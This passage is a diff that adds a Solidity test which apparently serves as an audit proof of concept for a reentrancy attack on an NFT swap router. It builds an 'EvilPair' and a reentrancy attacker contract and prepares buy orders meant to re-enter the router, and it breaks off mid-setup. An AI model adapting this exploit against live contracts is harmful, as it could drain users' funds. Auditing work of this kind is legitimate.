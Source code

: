 ```diff
     }
+
+    function testSwapEvilPairReentrancyAttack_audit() public {
+        EvilPair evilPair;
+        EvilPairReentrancyAttacker evilPairReentrancyAttacker;
+        uint256 totalEthToSend = 100 ether;
+        deal(ALICE, totalEthToSend);
+
+        //0. create a pair with a bonding curve
+        uint256[] memory nftIds;
+        LSSVMPair pair;
+        nftIds = _getArray(START_INDEX, END_INDEX);
+
+        // mints END_INDEX - START_INDEX + 1 NFTs
+        pair = setUpPairERC721ForSale(0, address(0), nftIds);
+
+        (uint256 delta, uint256 spotPrice) = getReasonableDeltaAndSpotPrice();
+
+
+        //1. create a honeypotNft that again mints END_INDEX - START_INDEX + 1 nfts
+        IERC721Mintable honeypotNft = _setUpERC721(address(this), address(this), ALICE);
+
+        //2. setup a evilPair & transfer above NFTs to the evilPair
+        evilPair = new EvilPair(spotPrice, delta, address(pair.bondingCurve()), payable(address(0)), address(honeypotNft));
+        for (uint256 j; j< nftIds.length; j++){
+            IERC721(honeypotNft).transferFrom(address(this), address(evilPair), nftIds[j]);
+        }
+
+        // 3. setup evil pair attacker
+        evilPairReentrancyAttacker = new EvilPairReentrancyAttacker(router, spotPrice, PWNER, address(evilPair));
+
+        //4. set the evil pair attacker address as above
+        evilPair.setAttacker(payable(evilPairReentrancyAttacker));
+        evilPair.setReentrancyAttack(true); // just a flag to change the logic of setReentrancyAttack and swapNFTsForToken
+        evilPair.setRouterAddress(payable(router));
+        uint256[] memory partialFillAmounts = new uint256[](0);
+
+        //5. create a buy order so that we can re-enter from swapTokenForSpecificNFTs
+        VeryFastRouter.BuyOrderWithPartialFill memory attackBuyOrder = VeryFastRouter.BuyOrderWithPartialFill({
+            pair: LSSVMPair(address(evilPair)),
+            maxInputAmount: totalEthToSend,
+            ethAmount:totalEthToSend,
+            nftIds: nftIds,
+            expectedSpotPrice: pair.spotPrice(),
+            isERC721: true,
+            maxCostPerNumNFTs: partialFillAmounts
+        });
+
+       VeryFastRouter.BuyOrderWithPartialFill[] memory buyOrders =
+            new VeryFastRouter.BuyOrderWithPartialFill[](1);
+        buyOrders[0] = attackBuyOrder;
+
+        //6. Create a dummy sell order - 0 array
+        VeryFastRouter.SellOrderWithPartialFill[] memory sellOrders =
+            new VeryFastRouter.SellOrderWithPartialFill[](0);
+
+        //7. Create a swap order
+         VeryFastRouter.Order memory swapOrder = VeryFastRouter.Order({
+            buyOrders: buyOrders,
```